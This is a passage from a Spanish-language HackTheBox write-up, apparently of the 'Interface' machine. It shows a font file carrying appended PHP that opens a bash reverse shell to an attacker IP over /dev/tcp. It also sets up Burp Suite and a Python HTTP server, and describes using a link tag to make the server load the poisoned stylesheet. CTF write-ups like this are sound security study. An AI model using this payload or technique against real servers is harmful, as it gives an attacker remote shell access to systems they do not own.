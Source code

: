 Ahora vamos a editar el archivo `exploit_fond.php` para indicar la reverse shell 

```bash
❯ catn exploit_font.php

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6				s
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.115/443 0>&1'") ?>
<?php phpinfo(); ?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.115/443 0>&1'") ?>
```

Vamos a usar `burpsuite` para capturar la peticion y poder manipular la data 

```bash
❯ burpsuite &>/dev/null & disown
[1] 141900
```

Ahora vamos a poner un servidor http con python3 

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Ahora vamos a enviar una petición con el parámetro _html_ con la etiqueta de link para que haga una petición al archivo _css_ que editamos que es donde esta entablada nuestra reverse shell 

![](/assets/images/htb-writeup-interface/web5.png)
